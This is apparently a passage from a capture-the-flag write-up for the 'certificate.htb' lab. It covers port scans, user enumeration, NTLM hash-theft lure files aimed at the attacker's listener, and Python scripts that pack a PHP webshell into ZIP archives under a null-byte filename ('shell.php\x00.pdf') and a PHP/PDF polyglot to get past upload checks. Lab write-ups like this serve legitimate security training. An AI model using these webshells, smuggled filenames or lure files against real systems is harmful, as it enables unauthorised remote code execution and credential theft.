IP ID Sequence Generation: Incremental
Service Info: Hosts: certificate.htb, DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 8h00m01s, deviation: 0s, median: 8h00m01s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 50770/tcp): CLEAN (Timeout)
|   Check 2 (port 43176/tcp): CLEAN (Timeout)
|   Check 3 (port 43669/udp): CLEAN (Timeout)
|   Check 4 (port 52072/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-06-07T00:40:16
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   31.06 ms 10.10.14.1
2   31.15 ms 10.10.11.71

```

And yeah I was right, there is both a website and a CA server hosted on the machine. I will add the right FQDN to my local hosts file and procede to checking presence of custom services over UDP.

```
└─# nmap -F -sU 10.10.11.71                                                                                      
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-06 18:41 CEST
Nmap scan report for 10.10.11.71
Host is up (0.037s latency).
Not shown: 97 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 2.91 seconds

```

Now I feel I have all that I need in order to move forward.

# SMB

It is very difficult to attack the samba without a proper set of valid credentials and indeed it is not allowing me to get the user's list or samba share presence from an unauthenticated session.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# netexec smb dc01.certificate.htb -u '' -p '' --shares
SMB         10.10.11.71     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.71     445    DC01             [+] certificate.htb\: 
SMB         10.10.11.71     445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED
                                                                                                                                                                                                                                               
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# netexec smb dc01.certificate.htb -u '' -p '' --rid-brute
SMB         10.10.11.71     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.71     445    DC01             [+] certificate.htb\: 
SMB         10.10.11.71     445    DC01             [-] Error connecting: LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.

```

But I can see from the blog website that there might be some possible user combinations:


Now the key here is to understand the naming convention used, usually name.surname is the most common structure but it might be other. To do so I will create a simple list and enumerate in metasploit but all of them are failing:

```
msf6 auxiliary(gather/kerberos_enumusers) > run
[*] Using domain: CERTIFICATE.HTB - dc01.certificate.htb:88...
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "mark" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "wiens" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "markwiens" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "mark.wiens" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "mwiens" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "wiensm" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "mark_w" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "m_wiens" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "ben" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "frank" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "benfrank" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "ben.frank" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "bfrank" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "frankb" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "ben_f" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "b_frank" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "carol" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "wood" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "carolwood" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "carol.wood" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "cwood" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "woodc" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "carol_w" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "c_wood" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "charlie" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "barber" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "charliebarber" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "charlie.barber" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "cbarber" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "barberc" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "charlie_b" user not found
[*] dc01.certificate.htb:88 - 10.10.11.71 - User: "c_barber" user not found
[*] Auxiliary module execution completed
msf6 auxiliary(gather/kerberos_enumusers) > 

```

So as second step I will try to use the names from the statistiscally usernames list, there should be something right?  Unfortunately all the several user combination I have been trying like Name, name.surname, nsurname it failed. I guess I need to take the approach from web first..

# Attacking the web

Now before starying I will check for common DNS but I don't see anything so far?

```
─# ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://certificate.htb/ -H 'Host:FUZZ.certificate.htb' -fl 582

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://certificate.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt
 :: Header           : Host: FUZZ.certificate.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 582
________________________________________________

:: Progress: [1708971/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:40:: Progress: [1708971/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:40:: Progress: [1708971/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:40:: Progress: [1708971/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:40:: Progress: [1708971/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:40:: Progress: [1708971/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:40:: Progress: [1708971/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:40:: Progress: [1708971/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:41:: Progress: [1708971/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:41:: Progress: [1708971/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:41:: Progress: [1708971/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:41:: Progress: [1708973/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:41:: Progress: [1708973/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:41:: Progress: [1708973/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:41:: Progress: [1708973/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:41:: Progress: [170897:: Progress: [1708982/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:47] :: Errors: 1555450 ::
[INFO] ------ PAUSING ------

entering interactive mode
type "help" for a list of commands, or ENTER to resume.
> 
[INFO] ------ RESUMING -----

:: Progress: [1708983/3000001] :: Job [1/1] :: 2 req/sec :: Duration: [1:15:49] :: Errors: 1555451 ::
[INFO] ------ PAUSING ------


```

If I check the web I can see a search function on the blog side but it just hangs and hangs and hangs



Checking the send email seems like something is indeed happening, let's keep that in mind as it might be needed for later?

But I will register a new account to me first and try to login


And I can see it is possible to register 2 different type of accounts, sutdent & teacher and it is also written that someone will need to approve it and review first..

But I was able to login as a student:


I will create a teacher type account as well:



And I will login with both users so I can compare the differences of different accounts. But here I noticed that my account (teacher) must be pre-revieved?

****

**But before doing that I tried to check for SQLi on the login page but I don't see anything so far:**

****

But seems like the teacher account can't indeed login:



But inside the side I can see traces of how the courses can be reached..


I do wonder if any of these can be susceptible to SQLi instead?



Seems like nah. what if I increase the level?



Ok it is not working so I will use the enroll course function as well right?



Now I need to check for hidden stuff in case I am missing something...

```
└─# dirsearch -u "http://certificate.htb/" --crawl -x 403
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/millycash/Downloads/Certificate/reports/http_certificate.htb/__25-06-06_20-54-27.txt

Target: http://certificate.htb/

[20:54:27] Starting: 
[20:54:32] 200 -   14KB - /about.php
[20:54:32] 200 -   21KB - /blog.php
[20:54:32] 200 -    5KB - /static/js/jquery.ajaxchimp.min.js
[20:54:32] 200 -    3KB - /static/js/hexagons.min.js
[20:54:32] 200 -    6KB - /static/js/main.js
[20:54:33] 200 -    1KB - /static/js/jquery.counterup.min.js
[20:54:33] 200 -   84KB - /static/js/vendor/jquery-2.2.4.min.js
[20:54:33] 200 -   50KB - /static/js/vendor/bootstrap.min.js
[20:54:33] 200 -    3KB - /static/js/jquery.nice-select.min.js
[20:54:33] 200 -   10KB - /contacts.php
[20:54:33] 200 -    6KB - /static/js/jquery.sticky.js
[20:54:33] 200 -    9KB - /login.php
[20:54:33] 200 -   39KB - /static/js/owl.carousel.min.js
[20:54:33] 200 -   11KB - /register.php
[20:54:33] 200 -   20KB - /static/js/jquery.magnific-popup.min.js
[20:54:33] 200 -    8KB - /static/js/waypoints.min.js
[20:54:33] 200 -    7KB - /static/js/parallax.min.js
[20:54:40] 500 -  638B  - /cgi-bin/printenv.pl
[20:54:42] 200 -    0B  - /db.php
[20:54:45] 200 -    3KB - /footer.php
[20:54:45] 503 -  404B  - /examples/jsp/index.html
[20:54:45] 503 -  404B  - /examples/websocket/index.xhtml
[20:54:45] 503 -  404B  - /examples/
[20:54:45] 503 -  404B  - /examples/servlet/SnoopServlet
[20:54:45] 503 -  404B  - /examples/servlets/servlet/CookieExample
[20:54:45] 503 -  404B  - /examples/servlets/servlet/RequestHeaderExample
[20:54:45] 503 -  404B  - /examples/jsp/snp/snoop.jsp
[20:54:45] 503 -  404B  - /examples/servlets/index.html
[20:54:45] 503 -  404B  - /examples
[20:54:45] 503 -  404B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
[20:54:46] 200 -    2KB - /header.php
[20:54:49] 302 -    0B  - /logout.php  ->  login.php
[20:54:57] 301 -  343B  - /static  ->  http://certificate.htb/static/
[20:54:57] 301 -  345B  - /static..  ->  http://certificate.htb/static../
[20:55:00] 302 -    0B  - /upload.php  ->  login.php

Task Completed

```

Again nothing strage here, and my normal user(student) can only enroll courses that all that's why i guess I need to abuse the email function to get to the teacher account somehow...

Here I was pretty lost when i found insight about a third upload option?



That upload function seems interesting so far:


As we can see there is a file upload function that can be abused with pdf? and Docx? Since it is stated it will be reviewed by the teacher it might indicate we need to obtain some sort of hash?

I will start by creating a bad pdf:

```
msf6 auxiliary(fileformat/badpdf) > show options 

Module options (auxiliary/fileformat/badpdf):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILENAME   quiz.pdf         no        Filename
   LHOST      10.10.14.12      yes       Host listening for incoming SMB/WebDAV traffic
   PDFINJECT                   no        Path and filename to existing PDF to inject UNC link code into


View the full module info with the info, or info -d command.

msf6 auxiliary(fileformat/badpdf) > run

```

&nbsp;

Ok we can see a success but I can't see any callback, now I guess we need to inject this in a excell file or similar? I will generate a bunch of malicious files here:

```
└─# python3 ntlm_theft.py --generate all --server 10.10.14.12 --filename yovecio
Created: yovecio/yovecio.scf (BROWSE TO FOLDER)
Created: yovecio/yovecio-(url).url (BROWSE TO FOLDER)
Created: yovecio/yovecio-(icon).url (BROWSE TO FOLDER)
Created: yovecio/yovecio.lnk (BROWSE TO FOLDER)
Created: yovecio/yovecio.rtf (OPEN)
Created: yovecio/yovecio-(stylesheet).xml (OPEN)
Created: yovecio/yovecio-(fulldocx).xml (OPEN)
Created: yovecio/yovecio.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: yovecio/yovecio-(includepicture).docx (OPEN)
Created: yovecio/yovecio-(remotetemplate).docx (OPEN)
Created: yovecio/yovecio-(frameset).docx (OPEN)
Created: yovecio/yovecio-(externalcell).xlsx (OPEN)
Created: yovecio/yovecio.wax (OPEN)
Created: yovecio/yovecio.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: yovecio/yovecio.asx (OPEN)
Created: yovecio/yovecio.jnlp (OPEN)
Created: yovecio/yovecio.application (DOWNLOAD AND OPEN)
Created: yovecio/yovecio.pdf (OPEN AND ALLOW)
Created: yovecio/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: yovecio/Autorun.inf (BROWSE TO FOLDER)
Created: yovecio/desktop.ini (BROWSE TO FOLDER)
Generation Complete.

```

And upload only the ones I know if will work from the office package... And seems like the xslx is not working?



Now here I asked for a nudge and I was partially right on the file upload but rather than trying to get responder to work is more about uploading a php webshell instead.

And after several try and error I had to ask again for a nudge and got to know that:

- Create a php webshell disguised as pdf use the null injection **shell.php%00.pdf**
- Zip it!
- It has to be done in python as it will not mess things up like null bytes and so on

&nbsp;

So I asked chat gtp and came with this clever code:

```
import zipfile

payload = "<?php system($_GET['cmd']); ?>"
zip_filename = "quiz.zip"
internal_filename = "shell.phpD"  # temporary placeholder to patch later

# Create ZIP with placeholder filename
with zipfile.ZipFile(zip_filename, 'w') as zf:
    zf.writestr(internal_filename, payload)

# Patch ZIP binary to replace 'shell.phpD' with 'shell.php\x00'
with open(zip_filename, 'rb') as f:
    data = f.read()

data = data.replace(b'shell.phpD', b'shell.php\x00')

with open(zip_filename, 'wb') as f:
    f.write(data)

print(f"Created {zip_filename} with null byte in internal filename")

```

Executing the script:  
<br/>

If we open the file we can see it has only the php:  


When I asked the AI why the replace part is was because the ziplip is not allowing to put nullbyte in names and it has to be done in 2 steps to avoid the issue.

But the stupid AI still gave me the wrong code so this should do the trick:

```
import zipfile

# Payload for the PHP webshell
payload = "<?php system($_GET['cmd']); ?>"

# Names
zip_name = "quiz.zip"
placeholder_name = "name.phpD.pdf"  # We'll patch 'D' to \x00

# Step 1: Create the zip with the placeholder
with zipfile.ZipFile(zip_name, 'w') as zf:
    zf.writestr(placeholder_name, payload)

# Step 2: Patch 'D' -> null byte in the binary ZIP data
with open(zip_name, 'rb') as f:
    data = f.read()

patched_data = data.replace(b'name.phpD.pdf', b'name.php\x00.pdf')

with open(zip_name, 'wb') as f:
    f.write(patched_data)

print("Created quiz.zip with internal file: name.php\\x00.pdf")

```

The difference here is that is is actually appending the pdf at the end and before it wasn't..


And now I see another message?  


I think I am pretty near here! I resetted the machine and i added a dummy pdf(legit) and zipped and I can see when i uploaded the whole zip it unzip and uploads what is saved there...  


Now I need to do same but this time with the pdf trucated by the nullbytes after several code iterations I got this one:

```
import zipfile
import io

php_shell = '<?php system($_GET["cmd"]); ?>'
# filename with null byte inside (not supported directly by zipfile)
filename_raw = b"shell.php\x00.pdf"  # bytes with null byte

# Create zip in-memory first
zip_buffer = io.BytesIO()

with zipfile.ZipFile(zip_buffer, 'w', zipfile.ZIP_DEFLATED) as zf:
    # Write with a temporary name (zipfile module does not accept null bytes)
    zf.writestr("shell.phpD.pdf", php_shell)

# Now patch the filename in the binary zip data manually
zip_data = zip_buffer.getvalue()

# Find the offset of the temp filename "shell.phpD.pdf"
old_name = b"shell.phpD.pdf"
new_name = filename_raw + b"\x00" * (len(old_name) - len(filename_raw))  # pad if needed

if len(new_name) != len(old_name):
    raise ValueError("New filename length must match old filename length for binary patching")

# Replace filename in the zip bytes
patched_zip_data = zip_data.replace(old_name, new_name)

# Save patched zip
with open("quiz_nullbyte.zip", "wb") as f:
    f.write(patched_zip_data)

print("Created quiz_nullbyte.zip with filename containing null byte")

```

When i unzip it i can see it only saves the php:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/temp]
└─# unzip quiz_nullbyte.zip 
Archive:  quiz_nullbyte.zip
  inflating: shell.php            
```

And it passes the file upload:


And let's see if we can use it so far.. but after several tries I can use this:

```
#!/usr/bin/env python3
import zipfile
import struct

# Create PHP code that executes first, then PDF content
pdf_php_polyglot = b"""<?php
if(isset($_GET['cmd'])) {
    echo shell_exec($_GET['cmd']);
    exit; // Stop here, don't output PDF content
}
?>
%PDF-1.4
1 0 obj
<<
/Type /Catalog
/Pages 2 0 R
>>
endobj
2 0 obj
<<
/Type /Pages
/Kids [3 0 R]
/Count 1
>>
endobj
3 0 obj
<<
/Type /Page
/Parent 2 0 R
>>
endobj
xref
0 4
0000000000 65535 f 
0000000010 00000 n 
0000000079 00000 n 
0000000173 00000 n 
trailer
<<
/Size 4
/Root 1 0 R
>>
startxref
492
%%EOF"""

# Try different null byte filename approaches
filename = b"shell.php\x00.pdf"

# Create ZIP manually to preserve null byte
with open("upload.zip", "wb") as f:
    # Calculate CRC32 first
    import zlib
    crc = zlib.crc32(pdf_php_polyglot) & 0xffffffff
    
    # Local file header
    f.write(b"PK\x03\x04")  # Local file header signature
    f.write(b"\x14\x00")    # Version needed to extract
    f.write(b"\x00\x00")    # General purpose bit flag
    f.write(b"\x00\x00")    # Compression method (stored)
    f.write(b"\x00\x00")    # Last mod time
    f.write(b"\x00\x00")    # Last mod date
    f.write(struct.pack("<L", crc))  # CRC32
    f.write(struct.pack("<L", len(pdf_php_polyglot)))  # Compressed size
    f.write(struct.pack("<L", len(pdf_php_polyglot)))  # Uncompressed size
    f.write(struct.pack("<H", len(filename)))  # Filename length
    f.write(struct.pack("<H", 0))  # Extra field length
    f.write(filename)  # Filename with null byte
    f.write(pdf_php_polyglot)  # File data
    
    # Central directory entry
